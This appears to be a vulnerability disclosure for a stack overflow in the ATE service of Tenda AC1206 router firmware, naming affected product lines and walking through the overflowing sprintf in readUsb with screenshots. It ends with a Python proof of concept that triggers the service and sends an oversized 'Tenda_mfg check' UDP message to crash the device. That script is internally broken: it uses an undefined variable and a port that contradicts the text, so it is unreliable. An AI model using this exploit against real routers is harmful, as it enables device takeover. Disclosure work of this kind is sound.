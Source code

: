 # Description



Tenda AC1206 `ate_Tenda_mfg_check_usb3` and `ate_Tenda_mfg_check_usb` has stack overflow vulnerability. This vulnerability refer the CVE-2024-9793 (https://github.com/ixout/iotVuls/blob/main/Tenda/ate_command_injection/report.md) and I find another one

[firmware download](https://static.tenda.com.cn/tdcweb/download/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip)

# Affected version

AC series (AC1206, AC7, AC23 have been submitted separately)

11AC Routers-Tenda US (tendacn.com)

G series

Wired Enterprise Router-Tenda US (tendacn.com)

W series

In-wall AP-Tenda US (tendacn.com)

I series

Ceiling AP-Tenda US (tendacn.com)

O series

Outdoor CPE-Tenda US (tendacn.com)

A series

Range Extenders-Tenda US (tendacn.com)

VD series

xDSL Modem Routers-Tenda US (tendacn.com)


# details



When accessing `url:/goform/ate`, `TendaAte` will be called

![](w01.png)



The `TendaAte` function creates a thread and calls `ate_main_handle`, but, the recv_buf stack var size is ***4096***,  and recv from socket at most ***0x1000***

![](000.png)

![](001.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

![](01.png)

When `command` is `Tenda_mfg`and `arg` is `check` or `check USB3.0`, the `ate_Tenda_mfg_check_usb ` or `ate_Tenda_mfg_check_usb3` function is called, the both functions are similar, like:

![](02.png)

![](03.png)

![](04.png)



in `readUsb` function,  the variale `mntFileName` size is ***512*** char, but the variale `fileName`'s size is ***0x1000*** at most , there use `sprintf` function to format the two variables (`mountpoint` and `fileName`) into `mntFileName`, there is no ckeck , And will cause stack overflow. 

![](05.png)



![](06.png)

there is no protection mechanism, causing ***RCE*** is OK, furtherly

![](08.png)


find that, the child thread `300` crash
![](07.png)


poc:

```python
import socket
import time
import os

os.system('curl http://172.30.214.100/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('172.30.214.100', 80)
command = b's' * 999
message = b'Tenda_mfg check'+ chars

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```



